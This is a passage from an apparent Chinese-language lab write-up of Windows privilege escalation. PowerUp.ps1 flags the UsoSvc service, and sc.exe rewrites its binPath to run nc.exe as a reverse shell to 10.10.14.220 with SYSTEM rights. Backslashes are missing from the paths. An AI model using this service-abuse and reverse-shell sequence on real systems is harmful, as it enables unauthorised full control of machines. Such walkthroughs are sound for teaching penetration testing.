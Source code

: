 ```
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       596
```



## UsoSvc提权

思路断了，这时候需要执行一些辅助脚本进行检测。这里我使用了`PowerUp.ps1` [https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

```
powershell -ep bypass
Import-Module .PowerUp.ps1
Invoke-AllChecks
```

脚本回显提示有服务的权限异常

```
[*] Checking service permissions...

ServiceName   : UsoSvc
Path          : C:Windowssystem32svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
```

通过修改UsoSvc服务的binPath，然后重新启动服务即可执行我们的命令

```
PS C:&gt; sc.exe stop UsoSvc
PS C:&gt; sc.exe config usosvc binPath="C:WindowsSystem32spooldriverscolornc.exe 10.10.14.220 23336 -e cmd.exe"
PS C:&gt; sc.exe qc usosvc
PS C:&gt; sc.exe start UsoSvc
```

反弹shell直接拿到system权限，但是最后一步查看`root.txt`竟然无法打开，查看权限

```
PS C:tmp&gt; get-acl C:UsersAdministratorDesktoproot.txt|format-list

Path   : Microsoft.PowerShell.CoreFileSystem::C:UsersAdministratorDesktoproot.txt
Owner  : REcoby
Group  : RENone
Access : NT AUTHORITYSYSTEM Allow  FullControl
         BUILTINAdministrators Allow  FullControl
         REAdministrator Allow  FullControl
         REcoby Allow  FullControl
```

但是打不开，明明是有权限的

```
C:Windowssystem32&gt;type C:UsersAdministratorDesktoproot.txt
Access is denied.
```

